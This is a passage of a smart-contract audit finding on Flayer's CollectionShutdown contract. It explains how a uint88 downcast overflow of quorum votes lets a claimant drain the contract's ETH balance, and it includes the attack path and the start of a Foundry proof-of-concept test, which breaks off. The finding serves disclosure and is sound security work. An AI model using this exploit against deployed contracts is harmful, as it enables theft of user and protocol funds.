 ```solidity
uint amount = params.availableClaim * claimableVotes / (params.quorumVotes * ONE_HUNDRED_PERCENT / SHUTDOWN_QUORUM_PERCENT);
```

Thus, when dividing by a much smaller `quorumVotes`, the claimant receives much more than they are eligible for: in the PoC it's `20647 ether` though only `1 ether` has been received from sales.

### Root Cause

[CollectionShutdown.sol#150](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/utils/CollectionShutdown.sol#L150) and [CollectionShutdown.sol#L247](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/utils/CollectionShutdown.sol#L247) downcast the quorum votes to `uint88`, which may overflow.

### Internal pre-conditions

1. The collection token denomination needs to be sufficiently large to cause overflow
2. The amount of shutdown votes needs to be sufficiently large to cause overflow.

### External pre-conditions

none

### Attack Path

1. A user creates a collection with denomination `9`
2. The user holding `0.6190 ether * 10**9` of the collection token (i.e. less than 1 NFT) starts collection shutdown.
    - At that point the quorum of votes overflows, and becomes much smaller
4. Collection shutdown is executed normally.
5. Tokens are sold on Sudoswap. 
     - In the PoC they are sold for `1 ether`.
7. User claims the balance. Due to the overflow, they receive much more than what their NFTs were worth.
     - In the PoC user receives `20647 ether` though only `1 ether` has been received from sales.

### Impact

The protocol suffers unbounded losses (the whole balance of `CollectionShutdown` contract can be drained.

### PoC

Drop this test to [CollectionShutdown.t.sol](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/test/utils/CollectionShutdown.t.sol#L51) and execute with `forge test --match-test test_QuorumOverflow`:

```solidity
function test_QuorumOverflow() public {
    locker.createCollection(address(erc721c), 'Test Collection', 'TEST', 9);

    // Initialize our collection, without inflating `totalSupply` of the {CollectionToken}
    locker.setInitialized(address(erc721c), true);

    // Set our collection token for ease for reference in tests
    collectionToken = locker.collectionToken(address(erc721c));

    // Approve our shutdown contract to use test suite's tokens
    collectionToken.approve(address(collectionShutdown), type(uint).max);

    // Give some initial balance to CollectionShutdown contract
    vm.deal(address(collectionShutdown), 30000 ether);
    
    vm.startPrank(address(locker));
    // Suppose address(1) holds 0.6190 ether
```